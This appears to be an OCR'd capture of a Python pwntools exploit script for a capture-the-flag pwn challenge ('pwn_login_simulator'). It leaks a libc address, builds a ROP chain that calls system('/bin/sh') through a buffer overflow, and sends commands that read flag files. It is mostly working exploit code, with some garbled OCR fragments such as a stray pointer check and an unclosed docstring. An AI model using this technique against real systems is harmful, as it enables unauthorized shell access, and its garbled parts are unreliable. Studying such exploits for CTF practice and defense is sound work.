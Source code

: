 ```python
  [rdx] == NULL || rdx == NULL

"""
while True:
    try :
        if local_mote==1 :
            p=process(elf)
        else :
            p=remote(ip_port[0],ip_port[-1])
        stdout_addr=link()
        x=finder('_IO_2_1_stdout_',stdout_addr,num=1)
        libc_base=stdout_addr-0x1ec6a0
        system_addr=0x000000000055410+libc_base
        puts_addr=0x0000000000875a0+libc_base
        #0x0000000000026b72 : pop rdi ; ret
        rdi_ret=0x000000000011c371+libc_base
        sh_addr=0x00000000001b5661+libc_base
        ret=0x0000000000025679+libc_base
        log.info('sh:'+hex(sh_addr))
        log.info(hex(sh_addr))
        log.info(hex(libc_base))
        debug()
        p.recv(timeout=4)
        p.sendline('1')
        p.sendline(str(0x80))#'z'*0x60+'j'*(0x100-0x20))
        rsi_ret=0x0000000000027529+libc_base
        #0x0000000000026b72 : pop rdi ; ret
        rdi_ret=0x0000000000026b72+libc_base
        p.sendline('w'*(0x40)+chr(0x20)*0x78+p64((rdi_ret))+p64(x.dump('str_bin_sh'))+p64(rsi_ret)+p64(0)+p64(ret)+p64(x.dump('system'))+'x'*0x10+
chr(0x0)*8+'\x00'*0x100)#'z'*0x60+'j'*(0x100-0x20))
        sleep(0.5)
	
        print(p.recv(timeout=4))        
        p.sendline('ls')
        print(p.recvline(timeout=2)) 
        #p.interactive()
        p.sendline('cat /home/pwn_login_simulator/f*')
        p.sendline('cat /f*')
        p.sendline('cat fla*')
       
    except:
        p.close()
    else:
        p.interactive()    
```

